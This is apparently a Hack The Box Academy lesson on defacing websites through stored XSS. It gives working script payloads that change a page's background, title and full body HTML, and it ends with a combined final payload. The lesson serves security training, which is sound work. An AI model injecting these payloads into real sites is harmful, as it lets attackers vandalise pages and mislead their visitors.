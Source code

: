

One of the most common attacks usually used with stored XSS vulnerabilities is website defacing attacks. `Defacing` a website means changing its look for anyone who visits the website.

## Defacement Elements

Three HTML elements are usually utilized to change the main look of a web page:

- Background Color `document.body.style.background`
- Background `document.body.background`
- Page Title `document.title`
- Page Text `DOM.innerHTML`

## Changing Background

To change a web page's background, we can choose a certain color or use an image. We will use a color as our background since most defacing attacks use a dark color for the background. To do so, we can use the following payload:

Code: html

```html
<script>document.body.style.background = "#141d2b"</script>
```

``Tip: Here we set the background color to the default Hack The Box background color. We can use any other hex value, or can use a named color like `= "black"`.

Another option would be to set an image to the background using the following payload:

Code: html

```html
<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>
```

## Changing Page Title

We can change the page title from `2Do` to any title of our choosing, using the `document.title` JavaScript function:

Code: html

```html
<script>document.title = 'HackTheBox Academy'</script>
```

## Changing Page Text

When we want to change the text displayed on the web page, we can utilize various JavaScript functions for doing so. For example, we can change the text of a specific HTML element/DOM using the `innerHTML` function:

Code: javascript

```javascript
document.getElementById("todo").innerHTML = "New Text"
```

We can also utilize jQuery functions for more efficiently achieving the same thing or for changing the text of multiple elements in one line (to do so, the `jQuery` library must have been imported within the page source):

Code: javascript

```javascript
$("#todo").html('New Text');
```

This gives us various options to customize the text on the web page and make minor adjustments to meet our needs. However, as hacking groups usually leave a simple message on the web page and leave nothing else on it, we will change the entire HTML code of the main `body`, using `innerHTML`, as follows:

Code: javascript

```javascript
document.getElementsByTagName('body')[0].innerHTML = "New Text"
```

As we can see, we can specify the `body` element with `document.getElementsByTagName('body')`, and by specifying `[0]`, we are selecting the first `body` element, which should change the entire text of the web page.

Code: html

```html
<center>
    <h1 style="color: white">Cyber Security Training</h1>
    <p style="color: white">by 
        <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
    </p>
</center>
```

``Tip: It would be wise to try running our HTML code locally to see how it looks and to ensure that it runs as expected, before we commit to it in our final payload.

We will minify the HTML code into a single line and add it to our previous XSS payload. The final payload should be as follows:

Code: html

```html
<script>document.getElementsByTagName('body')[0].innerHTML = '<center><h1 style="color: white">Cyber Security Training</h1><p style="color: white">by <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy"> </p></center>'</script>
```

This is because our injected JavaScript code changes the look of the page when it gets executed, which in this case, is at the end of the source code. If our injection was in an element in the middle of the source code, then other scripts or elements may get added to after it, so we would have to account for them to get the final look we need.